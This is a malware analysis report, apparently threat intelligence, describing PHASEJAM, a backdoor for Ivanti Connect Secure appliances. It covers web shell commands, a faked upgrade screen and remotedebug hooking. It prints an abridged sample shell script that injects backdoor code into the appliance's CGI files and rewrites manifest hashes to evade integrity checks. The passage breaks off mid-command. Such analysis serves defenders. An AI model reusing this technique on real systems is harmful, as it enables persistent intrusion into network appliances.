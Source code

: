 Similar to command 1 but executes the provided commands using `/home/bin/dsrunpriv` and the patched `remotedebug` file.

`3`

Writes a file with a name specified in the `HTTP_CODE` environment variable under the `/tmp` directory with content provided in the `License` parameter. This functionality allows the attacker to upload arbitrary files on the compromised appliance.

`4`

Reads the content of a file specified in the Base64-decoded `HTTP_CODE` environment variable and returns the content to the attacker. This enables the attacker to exfiltrate data from the affected appliance.

`5`

Similar to command 3 but overwrites the target file instead of appending to it, in case it already exists on the appliance.

#### Blocked and Simulated Upgrades

To intercept upgrade attempts and simulate an upgrade, PHASEJAM injects a malicious function into the `/home/perl/DSUpgrade.pm` file named `processUpgradeDisplay()`. The functionality is intended to simulate an upgrading process that involves thirteen steps, with each of those taking a predefined amount of time. If the ICS administrator attempts an upgrade, the function displays a visually-convincing upgrade process that shows each of the steps along with various numbers of dots to mimic a running process. Further details are provided in the System Upgrade Persistence section. 

#### remotedebug Hooking

PHASEJAM renames the file `/home/bin/remotedebug` to `remotedebug.bak`. PHASEJAM writes a new `/home/bin/remotedebug` shell script to hook calls to `remotedebug`. The brief shell script checks for a new `-c` parameter that allows remote code execution by the web shell. All other parameters are passed through to `remotedebug.bak`.

The following provides an abridged PHASEJAM Sample:

```
# create backdoor 1
cp /home/webserver/htdocs/dana-na/jam/getComponent.cgi 
/home/webserver/htdocs/dana-na/jam/getComponent.cgi.bak

sed -i 's/sub main {/sub main {my \$r7=AccessAllow();return if 
\$r7;/g' /home/webserver/htdocs/dana-na/jam/getComponent.cgi

sh=$(echo CnN1YiB...QogICAK|base64 -d)

up=$(echo CnN1YiB...xuIjsKCn0K |base64 -d)

grep -q 'sub AccessAllow()' || echo "$sh" >> 
/home/webserver/htdocs/dana-na/jam/getComponent.cgi

sed -i "s/$(grep /home/webserver/htdocs/dana-na/jam/getComponent.cgi 
/home/etc/manifest/manifest -a |grep 
-oE '[0-9a-f]{64}')/$(/home/bin/openssl dgst -sha256 
/home/webserver/htdocs/dana-na/jam/getComponent.cgi |grep 
-oE '[0-9a-f]{64}')/g" /home/etc/manifest/manifest;


#pkill cgi-server	


# create backdoor 2
cp /home/webserver/htdocs/dana-na/auth/restAuth.cgi 
/home/webserver/htdocs/dana-na/auth/restAuth.cgi.bak

sed -i 's/sub main {/sub main {my \$r7=AccessAllow();return if 
```